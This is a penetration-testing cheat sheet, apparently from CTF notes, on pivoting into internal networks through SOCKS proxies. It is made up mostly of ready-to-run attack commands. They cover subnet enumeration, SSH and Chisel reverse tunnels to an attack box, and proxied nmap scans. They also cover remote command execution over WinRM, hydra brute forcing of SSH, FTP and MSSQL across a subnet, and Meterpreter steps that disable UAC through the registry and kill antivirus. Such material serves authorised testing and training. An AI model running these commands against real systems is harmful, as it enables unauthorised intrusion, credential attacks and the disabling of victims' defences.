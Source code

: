 # Scanning though a pivot    
## Contents    
- [Scanning though a pivot](#scanning-though-a-pivot)
  * [Contents](#contents)
  * [Subnet Enumeration Commands](#subnet-enumeration-commands)
  * [ProxyChains](#proxychains)
    + [SSH Dynamic Tunnels](#ssh-dynamic-tunnels)
    + [Chisel](#chisel)
    + [Nmap scan through a dynamic SOCKS proxy](#nmap-scan-through-a-dynamic-socks-proxy)
    + [Web access:](#web-access-)
    + [Use WinRM through proxychains](#use-winrm-through-proxychains)
    + [RDP through ProxyChains](#rdp-through-proxychains)
  * [Uploading Static Binaries](#uploading-static-binaries)
  
## Subnet Enumeration Commands    
Build an IP list then scan using nmap over proxychains    
Linux  
 
    ip a   
    arp -a
    cat /etc/hosts
    cat /etc/resolv.conf  
    netstat -antp    
    for x in {1..254};do (ping -c 1 10.1.1.$x | grep "bytes from" &); done | cut -d " "    
Windows     

    ipconfig   
## ProxyChains    
Use tools like ProxyChains to scan new hosts without dropping tools to disk.     
/etc/proxychains.conf #config file. Specify SOCKS4/5 proxy    
### SSH Dynamic Tunnels     
Set up an SSH dynamic tunnel through a bastion host to scan an internal subnet using creds:      

    ssh -D 9050 user@bastion -N -f      
### Chisel   
Set up a reverse tunnel using [Chisel](https://github.com/jpillora/chisel):    
(For CTFs you will most likely need the AMD64/x86_64 binary)       

    ./chisel server -p 8001 --reverse        #start Chisel server on attack box   
    ./chisel client 10.10.10.10:8001 R:1080:socks    #connect from to it from a client target server  
    # add 'socks5 127.0.0.1 1080 ' to /etc/proxychains.conf  
### Nmap scan through a dynamic SOCKS proxy  
Only -sT will work - can be a bit slow with an SSH tunnel so setting up a Chisel proxy might be a better option:        

    proxychains nmap 10.10.10.10 -sT -p 80, 443     
    proxychains nmap -iL ips.txt -sT -sV   
### Web access:    

    Use FoxyProxy Firefox extension and add a SOCKS5 proxy 127.0.0.1:9050 to access a site through a dynamic tunnel   
[Using Burp Through a SOCKS5 Proxy](https://dev.to/adamkatora/how-to-use-burp-suite-through-a-socks5-proxy-with-proxychains-and-chisel-507e)    

    Use Burp Upstream Proxies feature to add SOCKS5 proxy - set FoxyProxy Firefox addon to Burp proxy     
    Burp -> Settings (upper right corner) -> Network -> Connections -> SOCKS Proxy             
    Select the option 'Override options for this project only'. Options: 127.0.0.1, 1080, use SOCKS proxy     

### Use WinRM through proxychains         

    proxychains crackmapexec winrm 10.10.10.10 -u "USERNAME" -p "PASSWORD" -x "command"    
### MSSQL     
 
    proxychains sqsh -S 172.16.1.5 -U user -P password    
### RDP through ProxyChains       

    proxychains xfreerdp /u:DOMAIN\\username /p:password /v:ip      
### Brute Force a Service Through Proxychains    

    proxychains hydra 10.10.10.10 ssh -s 22 -L users.txt -P passwords.txt -t 4     
    proxychains hydra -L usernames -P passwords 10.10.10.0/24 ftp       #brute force a subnet   
    proxychains hydra -L users –P passwords <IP> mssql   #MSSQL    
## Uploading Static Binaries    
Use static binaries from [here](https://github.com/ernw/static-toolbox) or [here](https://github.com/andrew-d/static-binaries)     
Upload nmap binary to a Windows target (through meterpreter and scan)      

    meter > upload nmap_binary      
    meter > shell     
    #then disable UAC  
    C:\Windows\System32\cmd.exe /k %windir%\System32\reg.exe ADD HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /v EnableLUA /t REG_DWORD /d 0 /f     
    meter > killall av       #turn off AV
    meter > shutdown /r    
    #wait a few minutes then renew the Meterpreter session    
    meter > nmap-setup.exe /S   #install nmap silently   
Upload nmap binary to a Linux target (through meterpreter and scan)      

    meter > upload nmap . 
    chmod +x run-nmap.sh   
    ./run-nmap.sh   
    
